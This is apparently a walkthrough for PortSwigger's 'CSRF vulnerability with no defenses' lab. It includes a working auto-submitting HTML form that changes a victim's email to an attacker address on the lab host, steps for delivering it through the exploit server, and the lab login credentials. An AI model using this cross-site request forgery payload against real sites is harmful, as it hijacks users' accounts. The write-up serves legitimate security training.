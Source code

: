 # CSRF vulnerability with no defenses

## Description

[This lab](https://portswigger.net/web-security/csrf/lab-no-defenses)'s email change functionality is vulnerable to CSRF.  

## Reproduction and proof of concept

1. Log in and intercept updating email (which is vulnerable):

![Simple CSRF](/_static/images/csrf-simple1.png)

2. To create the exploit, put the correct parameters in the template given in [Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf):

```text
<html>
    <body>
        <form action="https://0abe00ae04c3c7a8c1a5356100cc00d2.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

3. Paste the exploit in the `body` field of the exploit server form (link to exploit server is up top):

![Simple CSRF](/_static/images/csrf-simple2.png)

4. To verify that the exploit works, try it by clicking **View exploit**, turning intercept on again, and checking the resulting HTTP request and response. 
5. Click **Deliver to victim** to solve the lab. 

## Exploitability

An attacker needs to craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to the exploit server. An account with credentials `wiener:peter` is available.

